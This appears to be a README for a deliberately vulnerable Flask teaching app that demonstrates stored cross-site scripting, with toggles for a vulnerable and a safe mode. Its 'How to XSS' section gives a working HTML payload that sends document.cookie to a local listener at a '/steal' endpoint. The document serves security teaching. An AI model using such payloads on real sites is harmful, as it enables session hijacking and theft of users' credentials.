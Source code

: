 # Flask Books XSS

## Running manually
### Requirements
* Python 3.11 or 3.12
* 
1. Create virtual environment
```bash
python -m venv .venv
```

1. Create .env file like `example.env`

2. Run project

```bash
flask --app flask_books_xss run
```

## Running in Docker

1. Build

```bash
docker build -t books-xss:latest .
```

2. Run (in vulnerable mode)

```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=true books-xss:latest
```
-> Access page on http://localhost:8080

3. Run (in safe mode)
```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=false books-xss:latest
```

-> Access page on http://localhost:8080 

## How to XSS (fetch cookies)

1. Run app in vulnerable mode (as described previously)

2. As an example, paste this into the Title field:

```html
<div style="padding:8px;border:1px solid #cc0000;background:#fff7f7">
  <strong>🔥 Limited offer:</strong>
  <button style="padding:6px 10px;border:0;background:#0070f3;color:#fff;cursor:pointer"
    onclick='(function(){
		fetch("http://127.0.0.1:4000/steal?c=" + encodeURIComponent(document.cookie)); })()'>
    Buy now
  </button>
</div>
```

3. Open an external command-line session

4. Run `python -m http.server -port 4000`

5. On the web app, click "buy now" which will trigger the cookie fetching

6. Look at your command-line terminal, which should have logged a request with cookie information in the URL

## Project layout

```bash
flask-books-xss/
├─ pyproject.toml                 # Poetry 2 (PEP 621)
├─ flask_books_xss/
│  ├─ __init__.py                 # app factory, env parsing
│  ├─ app.py                      # CLI entry (exposes `app`)
│  ├─ db.py / storage.py          # SQLAlchemy + helpers
│  ├─ routes.py                   # web blueprint
│  └─ templates/
│     └─ index.html               # uses {{ vulnerable }} flag
└─ (instance/)                    # created at runtime for SQLite

```

